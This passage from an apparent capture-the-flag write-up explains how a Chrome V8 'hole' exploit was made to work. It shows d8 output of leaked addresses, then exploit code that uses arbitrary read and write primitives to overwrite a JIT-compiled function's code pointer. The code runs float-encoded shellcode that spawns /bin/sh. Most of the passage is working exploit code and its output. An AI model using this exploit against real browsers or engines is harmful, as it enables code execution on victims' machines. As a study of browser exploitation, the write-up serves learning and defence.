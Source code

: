 Unfortunately, the exploit in the link above does not seem to work out of the box; After digging deeper, we find [an article](https://cwresearchlab.co.kr/entry/Chrome-v8-Hole-Exploit) with a *mostly* working script referencing the same exploit method. The main difference seems to be an additional loop

```js
do {
    install_primitives();
} while (!packed_dbl_map);
```

And we see that somehow it generally takes 2 iterations for `packed_dbl_map` to be set properly.

```
$ ./d8 solve.js
packed_dbl_map = 18cfb9
packed_dbl_props = 2259
packed_dbl_elements = 45b41
packed_map = 18d039
packed_props = 2259
packed_elements = 45b79
fixed_arr_map = 2231
large_arr = 30a761
```

After we have successfully set up our primitives, we proceed with our main exploit code.

```js
// CREDITS: https://cwresearchlab.co.kr/entry/Chrome-v8-Hole-Exploit

/* execute shellcode */

let shellcode = [0xceb586e69622f68n,
    0xceb5b0068732f68n,
    0xceb909020e3c148n,
    0xceb909050d80148n,
    0xceb909090e78948n,
    0xceb903bb0c03148n,
    0x50fd23148f63148n];  // execve("/bin/sh", 0, 0)

const f = () => {
    return [1.9555025752250707e-246,
        1.9562205631094693e-246,
        1.9711824228871598e-246,
        1.9711826272864685e-246,
        1.9711829003383248e-246,
        1.9710902863710406e-246,
        2.6749077589586695e-284];
}

for (let i = 0; i < 0x10000; i++) { f(); f(); f(); f(); }

let code = aar(addrof(f) + 0x18n) & 0xffffffffn;
let inst = aar(code + 0xcn) + 0x60n;
aaw(code + 0xcn, inst);

f();
```
